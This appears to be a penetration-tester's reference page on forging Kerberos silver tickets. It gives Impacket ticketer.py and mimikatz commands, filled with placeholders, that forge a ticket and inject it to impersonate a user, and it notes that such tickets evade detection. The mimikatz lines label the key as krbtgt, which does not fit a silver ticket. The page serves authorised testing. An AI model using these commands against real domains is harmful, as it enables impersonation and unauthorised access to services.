 # Silver ticket

In order to craft a silver ticket, testers need to find the target service account's NT hash or AES key (128 or 256 bits).

"While the scope is more limited than Golden Tickets, the required hash is easier to get and there is no communication with a DC when using them, so detection is more difficult than Golden Tickets." ([_adsecurity.org_](https://adsecurity.org/?p=2011))

The [Impacket](https://github.com/SecureAuthCorp/impacket) script [ticketer](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ticketer.py) can create silver tickets.

```shell
# with an NT hash
python ticketer.py -nthash $NThash -domain-sid $DomainSID -domain $DOMAIN -spn $SPN $Username

# with an AES (128 or 256 bits) key
python ticketer.py -aesKey $AESkey -domain-sid $DomainSID -domain $DOMAIN -spn $SPN $Username
```

On Windows, [mimikatz](https://github.com/gentilkiwi/mimikatz) can be used to generate a silver ticket. Testers need to carefully choose the right SPN type (CIFS, HTTP, LDAP, HOST, RPCSS) depending on the wanted usage.

```shell
# with an NT hash
kerberos::golden /domain:$DOMAIN /sid:$DomainSID /rc4:$krbtgt_NThash /user:$username_to_impersonate /target:$targetFQDN /service:$spn_type /ptt

# with an AES 128 key
kerberos::golden /domain:$DOMAIN /sid:$DomainSID /aes128:$krbtgt_aes128_key /user:$username_to_impersonate /target:$targetFQDN /service:$spn_type /ptt

# with an AES 256 key
kerberos::golden /domain:$DOMAIN /sid:$DomainSID /aes256:$krbtgt_aes256_key /user:$username_to_impersonate /target:$targetFQDN /service:$spn_type /ptt
```

For both mimikatz and Rubeus, the `/ptt` flag is used to automatically inject the ticket.